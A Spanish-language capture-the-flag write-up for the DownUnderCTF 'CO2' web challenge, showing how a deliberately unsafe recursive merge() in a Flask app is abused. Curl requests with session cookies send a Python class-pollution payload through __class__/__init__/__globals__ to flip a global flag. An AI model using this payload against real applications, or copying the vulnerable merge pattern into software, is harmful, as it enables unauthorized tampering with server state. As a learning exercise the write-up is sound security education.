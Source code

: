 CO2
===========
---

- CTF URL: [CO2](https://play.duc.tf/challenges#co2-7)

---
Enunciado

```
A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.
```

---

### Recursos

- [Zip](./recurso/co2.zip)
- https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev/ (Server para vulnerar - es necesario recrear una nueva cada vez q se ejecuta la prueba)

---

### Solución

![Home de la pagina](recurso/pagina_1.png)

- Probamos el login y el register un par de trucos de mysql-injection pero ninguno parece hacer efecto
- Nos registramos normalmente
- Y luego de hacer el login vemos que tenemos mas opciones. 
![login page](recurso/pagina_2.png)

- Se puede crear un post en el blog normalmente y dar de alta algunos feedbacks. 

Si miramos el codigo de la aplicación el archivo [routes](recurso/src/app/routes.py) tiene un endpoint para obtener el flag
```py
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```
y la variable flag está inicializada cómo `` flag = os.getenv("flag") ``
por lo tanto su valor se define desde una variable de entorno del sistema o la aplicación. Si pudieramos cambiar el valor a "true" probablemente obtendríamos el flag.

(Si le pegamos al endpoint get_flag, nos devuelve "Nope")

Mirando un poco mas los archivos de la aplicación, vemos que existe otro endpoint sospechoso

```py
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200
```
merge + save_feedback_to_disk => 
```py

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True

```

estos métodos tienen pinta de ser vulnerables, ya que escriben y sobreescriben directorios de la aplicación, con lo cual estoy seguro que se puede sobre escribir el valor de la variable de configuracion "flag".

Con dicha sospecha como punta de lanza, podemos hacer un POST con cualquier herramienta (curl, postman, etc) que con los datos precisos, sobreescriba el valor que nosotros necesitamos cambiar a true, utilizando la cookie de la sesion iniciada.

```shell
curl --location 'https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev//save_feedback' \
--header 'Cookie: session=.eJwlzj0OwjAMQOG7ZGZw_BO7vUzlxI5gTemEuDuV2N7bvk855srzWfb3uvJRjleUvWwN1GJ05qqgmelIph7MkTEhOiVIVZuSOgNAMo0zGzs1MnYWwEaTCWKQ3t8qu8WsKuZmqLIpU4NNeroL3IXYawwbiehYbsh15vpravn-AKGKLno.ZqcB8Q.cgtnVAMMcH3IOYiAd7D9LUo0ENw; session=.eJwlzj0OwjAMQOG7ZGZw_BO7vQxyYlsgMbViQtydSmzvbd-n3evI89H28teZt3Z_RtvbNkAt1mTuCpqZjmTqwRwZBTEpQbpaSWoFgGQaZw52GmTsLICDiglikV4_OrtFdRVzM1TZlGnAJjPdBa5CnD2WrUR0bBfkfebx1_T2_QHTai7F.ZqcFng.s9PbRBCJ3xOqAjBELlfElZ5N53A' \
--header 'Content-Type: application/json' \
--data '{
    "title": "test",
    "content": "test",
    "rating": "123",
    "referred": "test",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}'
```

Y nuevamente le pegamos al endpoin del /get_flag

```shell
curl --location --request GET 'https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev/get_flag' \
--header 'Cookie: session=.eJwlzj0OwjAMQOG7ZGZw_BO7vUzlxI5gTemEuDuV2N7bvk855srzWfb3uvJRjleUvWwN1GJ05qqgmelIph7MkTEhOiVIVZuSOgNAMo0zGzs1MnYWwEaTCWKQ3t8qu8WsKuZmqLIpU4NNeroL3IXYawwbiehYbsh15vpravn-AKGKLno.ZqcB8Q.cgtnVAMMcH3IOYiAd7D9LUo0ENw; session=.eJwlzj0OwjAMQOG7ZGZw_BO7vQxyYlsgMbViQtydSmzvbd-n3evI89H28teZt3Z_RtvbNkAt1mTuCpqZjmTqwRwZBTEpQbpaSWoFgGQaZw52GmTsLICDiglikV4_OrtFdRVzM1TZlGnAJjPdBa5CnD2WrUR0bBfkfebx1_T2_QHTai7F.ZqcF8w.IHXLuRc9Zn8spGeu8ctbO6EdfC8' \
--header 'Content-Type: application/json' \
--data '{
    "title": "test",
    "content": "test",
    "rating": "123",
    "referred": "test",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}'
```


DUCTF{_cl455_p0lluti0n_ftw_}

(pd: [Class Pollution en python](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) )
